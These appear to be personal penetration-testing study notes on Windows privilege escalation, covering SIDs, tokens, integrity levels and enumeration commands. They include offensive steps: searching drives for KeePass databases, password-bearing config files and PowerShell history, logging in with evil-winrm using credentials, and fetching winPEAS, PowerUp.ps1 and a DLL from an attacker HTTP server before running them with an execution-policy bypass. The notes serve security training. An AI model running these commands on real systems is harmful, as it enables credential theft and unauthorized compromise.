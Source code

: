           Well Known SIDs
S-1-0-0                       Nobody        
S-1-1-0	                      Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator

Tokens describe the security context of a user
When a user starts a process / thread, they are assigned a primary token. This is a copy of the user's access token.

Impersonation tokens are used to give different contexts than the process that owns the thread.

When processes are started or objects are created, they receive the integrity level of the principal performing this operation. 
One exception is if an executable file has a low integrity level, the process's integrity level will also be low.

- System: SYSTEM (kernel, ...)
- High: Elevated users
- Medium: Standard 
- Low: very restricted rights often used in sandboxed

### Situational Awareness

Key Information for Windows privilege escalation
-Username and hostname
  whoami - you can infer data from hostname such as WEB01 for a web server or MSSQL01
  
- Group memberships of the current user
  whoami /groups
  
- Existing users and groups
  net user OR Powershell -> Get-LocalUser - list all users
  
  for groups keep an eye on things like helpdesk, backup, administrator, etc... rdp's pretty important too.
  net localgroup OR Get-LocalGroup -> List all groups
  Get-LocalGroupMember <groupnam> - List all users of group
  
- Operating system, version and architecture
  systeminfo

- Network information
  ipconfig /all
    is dhcp enabled? Is there a dns server? Is there a subnetmask or mac address?
    
  route print
  
  netstat -ano
    -a to display all active TCP connections as well as TCP and UDP ports, -n to disable name resolution, and -o to show the process ID for each connection.
  
- Installed applications
  show all x32 apps
  Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  
  show all x64 apps
   Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
   
   ```mystuff
   NOTE: These paths only work if the apps properly register themselves... If you can't find anything, try this...
   "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths"
   : This path contains information about application executable paths.
   
   "HKCR\Installer\Products"
   : This path contains information about installed products as recorded by the Windows Installer.```
  
  Or just check Program Files in C:\
  
- Running processes
          
  Get-Process
  
  ```my stuff
          
  Get-Process | Select-Object Name, Id, Path, Company, IntegrityLevel -- Integrity didn't show for me.. maybe it needs admin perms to show
  
  search by pid
          
  Get-Process | Where-Object { $_.Id -eq <PID> } | Select-Object Name, Id, Path
  
  search by processname
          
  Get-Process | Where-Object { $_.Name -eq "process_name" }
  
  search by name with wildcard
          
  Get-Process | Where-Object { $_.Name -like "*myapp*" }
  ```
 
 ### Hidden in plain sight
       
Find password DB for keePass. Obviously for other password managers, this needs to be changed
          
 Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
          
Find config files that may have passwords in plain text...
          
 Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
          

          
 ### Information Gold Mine
          
 Get-History
 (Get-PSReadlineOption).HistorySavePath
          
 alternatively
          
 type $((Get-PSReadlineOption).HistorySavePath)

PowerShell Remoting by default uses WinRM for Cmdlets such as Enter-PSSession. Therefore, a user needs to be in the local group Windows Management Users to be a valid user for these Cmdlets. However, instead of WinRM, SSH can also be used for PowerShell remoting.
          
Kali - login using winrm (NOTE SPECIAL CHARS MAY NEED TO BE ESCAPED)
          
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"

          
If RDP is annoying try this..
xfreerdp /u:USER /p:'PASSWORD' /v:$target /cert-ignore /w:1366 /h:768
          
xfreerdp /u:daveadmin /p:'mypassword' /v:'192.168.208.220' /cert-ignore /w:1366 /h:768
          
Search for event 4104 to see ScriptBlockLog events
         
### automation
 winPeas... serve it up to target using 
          
python3 -m http.server 80
          
then on target download using

iwr -uri http://192.168.45.230/winPEASx64.exe -Outfile winPEAS.exe
          
Start-Process -FilePath "winPEAS.exe" -RedirectStandardOutput "winlog.txt" -NoNewWindow -WindowStyle Hidden
### CMD
start /B cmd /C "winPEAS.exe > winPEAS.txt"
Get-Content winPEAS.txt | Out-Host -Paging

          
from INE I learned about using
 iwr -UseBasicParsing -Uri http://IP/Dwrite.dll -OutFile C:\Users\Administrator\Desktop\dvta\bin\Release\Dwrite.dll
          
** automated tools can be blocked by AV solutions. If this is the case, we can apply techniques learned in the Module "Antivirus Evasion", try other tools such as Seatbelt2 and JAWS,3 or do the enumeration manually.
          
winPeas misses things... don't forget manual enumeration...
          
     
 List all running services and their paths

Get-Service
          
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
          
When using a network logon such as WinRM or a bind shell, Get-CimInstance and Get-Service will result in a "permission denied" error when querying for services with a non-administrative user. Using an interactive logon such as RDP solves this problem.
          
Find perms
          
icacls "C:\xampp\apache\bin\httpd.exe" or Get-ACL
          
Find out how the service starts           
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
          
PowerUp.ps1 detects priv escalation vectors
          
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

 powershell -ep bypass

.\PowerUp.ps1

 Get-ModifiableServiceFile 

          

          

          
       

          
         






 A skilled penetration tester's goal is therefore not to blindly attempt privilege escalation on every machine at any cost,
 but to identify machines where privileged access leads to further compromise of the client's infrastructure.
